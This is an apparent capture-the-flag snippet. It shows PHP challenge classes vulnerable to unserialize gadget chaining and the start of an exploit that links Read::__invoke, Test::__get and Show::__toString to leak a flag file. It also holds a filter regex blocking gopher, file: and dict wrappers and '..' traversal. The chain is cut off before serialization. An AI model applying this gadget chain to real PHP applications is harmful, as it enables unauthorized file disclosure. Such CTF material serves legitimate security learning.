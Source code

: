 ```php
<?php
class Show
{
    public $source;
    public $str;
    public function __construct($file="")
    {
        
    }
    public function _show()
    {
        if(preg_match('/http|https|file:|gopher|dict|\.\.|fllllllaaaaaag/i',$this->source)) {
            die('hacker!');
        } else {
            highlight_file($this->source);
        }
        
    }

    public function __wakeup()
    {
    }
}
class Read {
    private $var="fllllllaaaaaag.php";

    public function file_get($value)
    {
        $text = base64_encode(file_get_contents($value));
        return $text;
    }
    
    public function __invoke(){
        $content = $this->file_get($this->var);
        echo $content;
    }
}
class Test
{
    public $params;
    private $source="666";
    public function __construct()
    {
    }
    public function __get($key)
    {
        $func = $this->params;
        return $func();
    }  
}

$a=new Show();
$b=new Show();
$c=new Test;
//$s->str["str"] = $t;

//Read::__invoke
$c->params=new Read;

//Test::__get
$b->str['str']=$c;

//Show::__tostring
```